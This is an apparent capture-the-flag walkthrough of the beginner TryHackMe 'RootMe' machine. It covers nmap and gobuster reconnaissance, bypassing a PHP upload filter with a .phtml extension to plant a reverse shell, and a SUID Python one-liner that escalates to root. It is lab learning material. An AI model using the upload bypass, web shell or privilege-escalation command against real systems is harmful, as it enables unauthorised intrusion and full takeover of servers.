# RootMe
# A ctf for beginners, can you root me?
# 
# Questions:
# 1. Connect to TryHackMe network and deploy the machine. If you don't know how to do this, complete the OpenVPN room first.
# 2. Scan the machine, how many ports are open? 
# 3. What version of Apache is running?
# 4. What service is running on port 22?
# 5. Find directories on the web server using the GoBuster tool.
# 6. What is the hidden directory?
# 7. user.txt
# 8. Search for files with SUID permission, which file is weird? 
# 9. Find a form to escalate your privileges.
# 10. root.txt

# Adding ip address of machine to env 
export IP=10.10.241.225 

# Scanning for open ports via nmap
nmap $IP -sT -sV -sV -oA nmap/res

Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-16 15:08 EST
Nmap scan report for 10.10.241.225
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.16 seconds

# Dirbusting web site on 80 port via gobuster
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.out -x php,sh,txt,js,css,html,py,dic

# Found
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 616]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.241.225/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.241.225/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.241.225/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.241.225/panel/]

# Let's check uploads directory -- nothing found
# Let's check js dir -- following js script found
function typeWrite(elemento){
    const textoArray = elemento.innerHTML.split('');
    elemento.innerHTML = ' ';
    textoArray.forEach(function(letra, i){   
      
    setTimeout(function(){
        elemento.innerHTML += letra;
    }, 75 * i)

  });
}

# Let's check css dir -- nothing interesting
# panel dir -- form for uploading files is found

# Let's try to upload some testing file, for example an image
# It is allowed to open files like /uploads/<filename>

# Let's put php reverse shell on the server from https://github.com/pentestmonkey/php-reverse-shell
# Fuck! It is not permitted to upload php files
# PHP files filter can be bypassed using php file wih extension .phtml

# Reverse shell is captured!

# user.txt file found in home directory of www-data daemon

# Finding files with SUID via find
find / -user root -perm -4000

# /usr/bin/python is suitable
# Let's escalate it
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

# PWNED.
